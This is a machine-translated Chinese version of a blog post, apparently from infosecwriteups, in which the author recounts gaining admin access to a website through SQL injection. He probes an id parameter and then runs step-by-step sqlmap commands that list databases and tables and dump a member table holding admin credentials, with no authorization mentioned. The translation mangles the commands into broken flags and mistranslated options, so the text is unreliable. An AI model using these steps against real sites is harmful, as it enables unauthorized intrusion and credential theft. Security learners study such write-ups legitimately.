





# 我如何获得网站的管理员权限？

> 原文：<https://infosecwriteups.com/how-i-gained-admin-level-access-of-a-website-3b052d69efd5?source=collection_archive---------2----------------------->

我已经有一段时间没有尝试获得任何网站的管理员权限了。今天，经过几天的闲逛和看电视连续剧，我想是时候回到最佳状态了。

要获得任何网站的管理员级别的访问权限，唯一的方法就是进行网络钓鱼攻击、键盘记录攻击或者 SQL 攻击。因此，我试图对一个网站进行 SQL 注入攻击，以获得完全的管理权限，天哪，我成功了吗？

# 让我们开始吧！

我开始攻击网站[example.com/list.php?id=1](http://www.example.com/list.php?id=1)，因为它有 id 参数，它更容易受到 SQL 注入攻击。为了检查网站是否容易受到 SQL 攻击，我替换了参数中的数字“1 ”,并在它的位置插入了一个撇号“”。当网站完成加载时，显示了一个特定的错误。

SQL 错误消息

现在，当我从服务器返回这个错误时，我知道服务器很有可能容易受到 SQL 攻击。于是，我打开了 sqlmap 进行 SQL 攻击。

# 攻击开始了！

因此，我开始使用 sqlmap 检查 SQL 漏洞是否可被利用，然后开始发起攻击

> http://example.com/list.php?artist=1--无强制转换- -dbms=mysql - - dbs

我看到了下面的输出。

数据库

我一收到上面的消息，就知道自己中了大奖。我继续进行我的破解，试图从第一个数据库中获取信息。

> http://example.com/list.php?artist=1--无强制转换--DBMS = MySQL-D da * * * * * * AK--表格

我看到了下面的输出。

表格详细信息

现在，第一眼看上去，我没有看到任何有趣的东西，因为大部分的东西都可以在网站上找到。然后我的目光就落在了表格的“会员”一栏上。我继续进行攻击，找出成员表中列的细节。

> sqlmap-u[http://example.com/list.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)--无强制转换--DBMS = MySQL-D da * * * * * * AK--T 成员--列

我得到了下面的输出。

列表格

然后，我继续查找成员表中显示的详细信息。

> sqlmap-u[http://example.com/list.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)--no-cast--DBMS = MySQL-D da * * * * * * AK-T member-C member _ email，member_fullname，member_password，member_user - -dump

当我输入上面的命令时，我得到了管理员帐户的以下详细信息，该帐户后来提供了对整个网站及其内容的控制。

管理员凭据

# 道德的

SQL 注入是一种非常危险的攻击，如果在网站上进行，可能会非常危险，因为它为攻击者提供了管理员级别的访问权限。这使得黑客能够操纵网站的内容，从而能够破坏网站或将其用于网络钓鱼目的，甚至根据 hid 的需要在网站上启用不同的脚本。

如果你喜欢，请鼓掌让我们合作吧。获取、设置、破解！

网址:【aditya12anand.com】T2|捐赠:【paypal.me/aditya12anand】T4

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com